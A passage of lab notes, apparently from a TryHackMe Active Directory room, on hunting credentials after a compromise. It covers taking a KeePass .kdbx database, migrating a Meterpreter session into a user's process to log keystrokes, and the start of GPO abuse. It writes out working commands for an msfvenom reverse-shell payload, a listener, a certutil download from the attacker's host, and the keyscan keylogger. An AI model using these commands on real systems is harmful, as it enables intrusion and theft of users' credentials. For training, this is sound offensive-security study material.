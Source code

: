 ##### Users and User Behavior

Users are stupid, we will focus on two elements:

- Credential Management: How users store their credentials.
- Keylogging: Keylogging with screengrabs can gain an understanding of how normal users interact with the system from the attacker's perspective.

##### Hunting for Credentials

After compromising THMSERVER1 we should look at directories for something useful.

You should find a .kdbx file which is very valuable, we can use Meterpreter's download command to recover this file.

This file seems to be a credential database, protected with a password. Since those who uses credential database are usually savvy enough to make the password secure, we'll probably have more success seeing how to user interacts with this database than trying to crack the password.

##### SYSTEM is Sometimes Too Privileged

Meterpreter has a built-in keylogger, but a SYSTEM shell won't help us since SYSTEM doesn't type any key strokes, so we will need to ensure the shell is running in the context of that user.

Meterpreter has a migrate feature, with which we can migrate to any service (since we are running under SYSTEM).

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> -f psh -o <output file>` - Generate a Powershell Meterpreter payload.

`msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST <ip address>; set LPORT <port>; exploit"` - Create the associated listener in Msfconsole.

`certutil.exe -urlcache -split -f http://<ip address>:8000/<exploit>` - Get the file to the target machine after setting up a python server.

`ps | grep "<process name>"` - Check for running process on the target machine.

`migrate <process's pid>` - Migrate to the process from the Meterpreter shell, the safest bet is usually something like explorer.
`getuid` - Confirm you are running in the context of the target.
`keyscan_start` - Start the keylogger.
`keyscan_dump` - Dump captured keystrokes.

## Exploiting GPOs

With Bloodhound we can see that the svcServMan account we found credentials for in the previous task has ownership over a Group Policy Object (GPO), which is also applied to our THMSERVER2 machine.

##### Group Policy Objects

SYSVOL directory is where AD GPOs are stored to be replicated to domain joined machines. A GPO is a virtual collection of policy settings, each GPO has a unique name called GUID. So the random names in the SYSVOL directory won't make sense.

Each Windows computer has a local policy configuration, this contains several notable configuration, such as:
